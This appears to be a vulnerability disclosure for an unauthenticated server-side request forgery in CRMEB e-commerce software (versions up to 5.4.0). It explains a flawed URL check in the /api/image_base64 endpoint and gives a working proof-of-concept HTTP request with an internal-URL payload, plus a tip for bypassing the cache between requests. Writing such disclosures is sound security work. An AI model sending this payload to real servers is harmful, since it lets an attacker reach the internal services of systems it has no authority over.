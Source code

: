 BUG_Author:
Rui Jie

Affected version:
CRMEB Standard Edition New Retail Social E-commerce System
Version<=5.4.0

Vendor:
https://www.crmeb.com/

Software:

https://gitee.com/ZhongBangKeJi/CRMEB

https://github.com/crmeb/CRMEB


Vulnerability File:
app/api/controller/v1/PublicController.php
app/common.php

Description:

A vulnerability classified as Server-Side Request Forgery has been identified in CRMEB. This affects sections of the app/api/controller/v1/PublicController.php file. Manipulation of the parameter image/code leads to Server-Side Request Forgery
It's an unauthorised interface, and doesn't even require any users.
A server-side request can be forged by anyone by visiting /api/image_base64 and passing the parameter image/code 


Pass json data
`{"image": "http://127.0.0.1:67?1=xxx", "code":""}`
Even if here on the incoming imageurl/codeurl judgement, but here there is a logical problem, through the `&&` connection of the conditional judgement, even if there is no picture suffix, will not meet the conditions, but also will continue to perform subsequent functions to image_to_base64 to achieve the SSRF attack

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121447950.png)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121451269.png)
POC:
```
POST /api/image_base64 HTTP/1.1

Host: crmeb.cc

Origin: http://crmeb.cc

Cookie: cb_lang=zh-cn; PHPSESSID=c3db7bedde04b37c0bc6a5699dbde774

Upgrade-Insecure-Requests: 1

Content-Type: application/json

Referer: http://crmeb.cc//api/image_base64

Accept-Language: zh-CN,zh;q=0.9

Accept-Encoding: gzip, deflate

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Cache-Control: max-age=0

Content-Length: 53

  

{"image":"http://127.0.0.1:67?1=12221231","code":""}
```
Trigger curl here(app/common.php)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121444887.png)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121446514.png)

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121446706.png)

However, it should be noted that it uses the CacheService::remember method to try to get the Base64 encoding of the $imageUrl from the cache, which should be changed after the first execution `http://127.0.0.1:67/?1=change me`.
